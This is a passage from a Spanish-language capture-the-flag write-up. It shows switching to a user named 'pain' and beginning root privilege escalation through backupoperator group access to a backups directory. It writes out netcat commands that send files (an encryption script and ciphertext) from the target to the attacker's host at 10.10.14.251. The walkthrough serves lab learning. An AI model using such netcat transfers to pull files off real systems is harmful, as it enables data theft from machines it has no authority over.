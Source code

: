 ![17](img/17.png)

Iniciamos sesión con el usuario **pain**.

`su pain`

![18](img/18.png)

## Escalada de Privilegios (Root)

Podemos ver que pertenecemos al grupo **backupoperator** y también podemos ejecutar comandos **sudo**, si recordamos en **/var/backups** hay un directorio llamado **recovery** que no se puede acceder si no pertenecemos al grupo anterior. Descargamos los archivos del directorio **encryptorinator** para analizarlos.

```
nc -w 3 10.10.14.251 1234 < encrypter.py
nc -w 3 10.10.14.251 1234 < ciphertext

nc -lvnp 1234 > encrypter.py
nc -lvnp 1234 > ciphertext
```

![19](img/19.png)
